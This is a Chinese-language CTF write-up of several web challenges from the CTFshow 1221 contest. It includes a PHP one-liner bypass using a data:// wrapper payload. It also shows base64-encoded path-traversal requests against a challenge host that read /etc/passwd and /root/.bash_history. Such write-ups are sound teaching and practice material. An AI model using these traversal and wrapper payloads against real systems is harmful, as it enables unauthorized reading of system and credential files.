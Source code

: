 ```yaml
---
title: "CTFshow1221摆烂杯 Wp"
slug: "ctfshow-1221-bailancup-wp"
description: "桥洞底下盖小被，java，狗都不学"
date: 2021-12-28T20:06:48+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


https://ctf.show/challenges

## web签到

![image-20211224183707592](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211224183707592.png)

一眼flask，简单fuzz一下发现过滤了字母 斜杠 引号 注释符 花括号 百分号 点号

没过滤的还有括号和加减乘除

```
A: 114)+(0
B: 1
C: -1
```

## 一行代码

```php
<?php
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-11-18 21:25:22
# @Last Modified by:   h1xa
# @Last Modified time: 2021-11-18 22:14:12
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/



echo !(!(include "flag.php")||(!error_reporting(0))||stripos($_GET['filename'],'.')||($_GET['id']!=0)||(strlen($_GET['content'])<=7)||(!eregi("ctfsho".substr($_GET['content'],0,1),"ctfshow"))||substr($_GET['content'],0,1)=='w'||(file_get_contents($_GET['filename'],'r') !== "welcome2ctfshow"))?$flag:str_repeat(highlight_file(__FILE__), 0);
```

现在都爱这种一行流了？

整体是三目运算符，如果前面的表达式整体为真则返回$flag，而外面又套了`!()`，所以需要括号内部为假，而又都是`||`连接，所以需要每个小括号自己都为假，挨个看看

- `$_GET['id']!=0`

给id赋值为0或者直接留空

- `strlen($_GET['content'])<=7`

content长于7

- `!eregi("ctfsho".substr($_GET['content'],0,1),"ctfshow")`

没匹配为假，则匹配为真，content=wwwwwww

- `substr($_GET['content'],0,1)=='w'`

把content改个大写

- `file_get_contents($_GET['filename'],'r') !== "welcome2ctfshow"`

用data://伪协议

payload

```
?id=0&content=Wwwwwwww&filename=data://text/plain,welcome2ctfshow
```

## 黑客网站

![image-20211224210814499](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211224210814499.png)

源码提示 flag不在这个服务器上，不用扫描，不用渗透

看字符串末尾有onion，拼在一起

```
http://tyros4qws3mmbubgjqje46ncv35jaqjgeb3nqiuf23ijoj4zwasxohyd.onion
```

访问就行了捏~

## ***登陆不了

在验证码的地方有个参数，尝试文件包含

```
http://bf986069-fc4e-42a3-b09b-c966f9e17a3c.challenge.ctf.show/v/c?r=Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA%3d%3d
```

雀食有/etc/passwd，但是看不了/flag，看一下别的东西

```
# /root/.bash_history
/v/c?r=Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vcm9vdC8uYmFzaF9oaXN0b3J5
```

![image-20211224202852805](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211224202852805.png)

好吧，竟然是java，先爬了
